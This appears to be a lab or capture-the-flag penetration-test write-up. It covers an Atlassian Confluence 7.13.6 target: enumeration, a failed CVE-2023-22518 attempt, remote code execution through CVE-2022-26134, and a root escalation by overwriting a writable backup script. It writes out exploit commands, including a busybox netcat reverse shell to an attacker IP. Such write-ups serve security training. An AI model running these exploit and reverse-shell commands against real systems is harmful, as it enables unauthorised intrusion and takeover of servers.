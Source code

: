 #InProgress 
```IP
192.168.140.41
```
# Enumeration
Ubuntu 1ubuntu8.5
## HTTP 8091
Location: http://localhost:8090/login.action?os_destination=%2Findex.action&permissionViolation=true

## HTTP 8090
Server: Aleph/0.4.6
Confluence - 7.13.6
dologin.action
Credentials that didnt work
```
admin:admin
admin:password
```
https://www.vicarius.io/vsociety/posts/authentication-bypass-in-confluence-cve-2023-22518

# Exploitation

```
python3 exploit.py http://192.168.140.41:8090
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204090401.png?raw=true)

however we cant access the  server. Other exploits for cve 2023 22518 doesnt work either

we move on to cve 2022 26134
https://github.com/hev0x/CVE-2022-26134
In the Atlassian offical webpage we can assess that our version (7.13.6) is affected by this exploit:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094108.png?raw=true)

```
python exploit.py -u http://192.168.140.41:8090 -c 'ping -c 5 192.168.45.176' 
```
this exploit does work as shown below:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204093932.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204093917.png?raw=true)
```
python exploit.py -u http://192.168.140.41:8090 -c 'busybox nc  192.168.45.176 443 -e sh'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094546.png?raw=true)

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094715.png?raw=true)

probable vulnerability in /opt/log-backup.sh
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204094906.png?raw=true)

with pspy we can see that it is running as root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100339.png?raw=true)

we will try to substitute log-backup.sh since we have write permissions on it. So we create a shell as shown below
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100755.png?raw=true)
we copy it and we wait for the reverse shell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100850.png?raw=true)\
 and listening to the port 4444 we get our root shell
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204100952.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement
